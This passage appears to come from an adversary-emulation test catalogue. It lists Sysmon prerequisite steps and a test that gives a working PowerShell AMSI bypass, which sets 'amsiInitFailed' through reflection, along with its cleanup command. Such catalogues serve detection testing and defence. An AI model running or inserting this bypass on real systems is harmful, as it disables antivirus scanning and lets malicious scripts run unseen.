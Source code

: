 
#### Dependencies:  Run with `powershell`!
##### Description: Sysmon executable must be available
##### Check Prereq Commands:
```powershell
if(cmd /c where sysmon) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
$parentpath = Split-Path "#{sysmon_exe}"; $zippath = "$parentpath\Sysmon.zip"
New-Item -ItemType Directory $parentpath -Force | Out-Null
Invoke-WebRequest "https://download.sysinternals.com/files/Sysmon.zip" -OutFile "$zippath"
Expand-Archive $zippath $parentpath -Force; Remove-Item $zippath
if(-not ($Env:Path).contains($parentpath)){$Env:Path += ";$parentpath"}
```
##### Description: Sysmon must be installed
##### Check Prereq Commands:
```powershell
if(cmd /c sc query sysmon) { exit 0} else { exit 1} 
```
##### Get Prereq Commands:
```powershell
cmd /c sysmon -i -accepteula
```




<br/>
<br/>

## Atomic Test #12 - AMSI Bypass - AMSI InitFailed
Any easy way to bypass AMSI inspection is it patch the dll in memory setting the "amsiInitFailed" function to true.
Upon execution, no output is displayed.

https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`! 


```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

#### Cleanup Commands:
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$false)
```
